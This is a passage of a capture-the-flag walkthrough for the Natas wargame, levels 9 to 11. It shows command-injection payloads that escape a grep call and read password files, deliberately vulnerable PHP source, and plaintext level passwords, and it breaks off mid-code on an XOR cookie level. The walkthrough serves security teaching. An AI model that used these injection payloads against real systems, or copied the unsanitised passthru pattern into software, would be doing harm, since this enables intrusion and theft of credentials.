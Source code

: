 ```
http://natas9.natas.labs.overthewire.org/?needle=elite&submit=Search
```
This seems like an <a href="https://owasp.org/www-community/attacks/Command_Injection">OS Command Injection</a>. We can escape the grep system command by using a semi-colon. Our final payload looks like:
```
; cat /etc/natas_webpass/natas10 #
```
Which gives the flag.

## natas10
```
natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```
The web-app is the same as in natas9. We can view the source.
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```
This time all of the possible escape characters are blocked so I am forced to work with grep. With grep, you can supply as many files as you want. Our payload is:
```
u /etc/natas_webpass/natas11
```
Which greps the password file<br>

## natas11
```
natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```
On the main page we are given a hint
```
Cookies are protected by XOR encryption
```
We can also view the source code:
```php
<?

$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
```